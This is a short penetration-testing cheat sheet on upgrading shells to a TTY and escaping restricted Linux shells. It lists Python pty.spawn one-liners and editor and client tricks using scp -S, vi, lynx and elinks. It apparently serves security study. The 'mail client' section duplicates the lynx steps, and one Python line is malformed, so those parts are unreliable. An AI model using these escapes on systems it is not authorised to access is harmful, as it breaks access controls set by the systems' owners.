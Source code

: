 
# Spawn and Upgrade shells to tty
````
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/sh')
echo os.system('/bin/bash')
python -c "exit_code = os.system('/bin/sh') output = os.open('/bin/sh').read()"
````

# Escaping restricted shells
https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells

https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells



# Use binary with command execution
## scp -S
    scp -S /home/untrusted/script.sh x y:

## vi/vim
    ESC
    :set shell=/bin/bash
    :shell

    :! /bin/bash

## lynx & vi
    open a local file with lynx (e.g.: $ lynx /etc/passwd)
    type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.
    Type “e” to edit the file with vi
    Follow instructions for vi

## mail client
    open a local file with lynx (e.g.: $ lynx /etc/passwd)
    type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.
    Type “e” to edit the file with vi
    Follow instructions for vi

## elinks : web browser
    $ set EDITOR=/bin/vi
    Open a webpage containing a text box (should be easy to find on the Internet. If you can not, well lmgtfy!!!).
    Navigate to the text-box area and Enter to edit, the press F4 (or whatever is used in the configurations) to edit the text box externally, and you should see something familiar :=)
